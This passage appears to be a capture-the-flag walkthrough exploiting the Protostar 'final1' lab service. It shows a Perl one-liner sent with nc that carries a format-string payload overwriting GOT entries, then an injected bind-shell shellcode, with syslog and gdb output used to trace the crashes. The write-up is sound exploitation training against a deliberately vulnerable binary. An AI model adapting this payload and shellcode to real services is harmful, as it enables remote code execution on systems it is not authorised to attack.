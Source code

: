 ```
user@protostar:/opt/protostar/bin$ perl -e 'print "username "."X"."\x1c\xa1\x04\x08"."\x1d\xa1\x04\x08"."\x1e\xa1\x04\x08"."\x1f\xa1\x04\x08"."%69x%15\$n"."%133x%16\$n"."%261x%17\$n"."%192x%18\$n"."\nlogin B"."username X\nlogin "."A"x78 ."\n"' | nc localhost 2994
[final1] $ [final1] $ login failed
```

In the syslog, this showed: 

```
Feb  5 00:14:14 protostar final1: Login from 127.0.0.1:36776 as [X#034¡#004#010#035¡#004#010#036¡#004#010#037¡#004#010                                                              8049ee4                                                                                                                              804a2a0                                                                                                                                                                                                                                                              804a220                                                                                                                                                                                        bffffc46] with password [Busername X]
Feb  5 00:14:14 protostar kernel: [986763.710440] final1[24875]: segfault at 69 ip bffffa78 sp bffffa00 error 6
```

If we launch gdb again, we can see where it crashed, and cross our fingers that it was when trying to execute our fake shellcode: 

```
user@protostar:/opt/protostar/bin$ su
Password:
root@protostar:/opt/protostar/bin# gdb --quiet --core=/tmp/core.11.final1.24875
Core was generated by `/opt/protostar/bin/final1'.
Program terminated with signal 11, Segmentation fault.
#0  0xbffffa78 in ?? ()
```

It would appear that our assumption was correct.  It tried to run starting at 0xbffffa75, and made it to 0xbffffa78 before segfaulting.  Let's now replace the fake shellcode with real shellcode: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "username "."X"."\x1c\xa1\x04\x08"."\x1d\xa1\x04\x08"."\x1e\xa1\x04\x08"."\x1f\xa1\x04\x08"."%69x%15\$n"."%133x%16\$n"."%261x%17\$n"."%192x%18\$n"."\nlogin B"."username X\nlogin "."\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\xff\x02\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"."\n"' | nc localhost 2994
[final1] $ [final1] $ login failed
```

However, this appeared to segfault as well, based on the syslog output, so again, I loaded it in gdb: 

```
root@protostar:/opt/protostar/bin# gdb --quiet --core=/tmp/core.11.final1.24894
Core was generated by `/opt/protostar/bin/final1'.
Program terminated with signal 11, Segmentation fault.
#0  0xbffffa78 in ?? ()
(gdb) x/1x 0x0804a11c
0x804a11c:      0xbffffa75
(gdb) x/1s 0xbffffa75
0xbffffa75:      "$n] with password [1\333\367\343SCSj\002\211\341\260fÍ[^Rh\377\002\021\\j\020QP\211\341jfXÍ\211A\004\263\004\260fÍC\260fÍ\223Yj?XÍIy\370h//shh/bin\211\343PS\211\341\260\vÍ]\n"
```
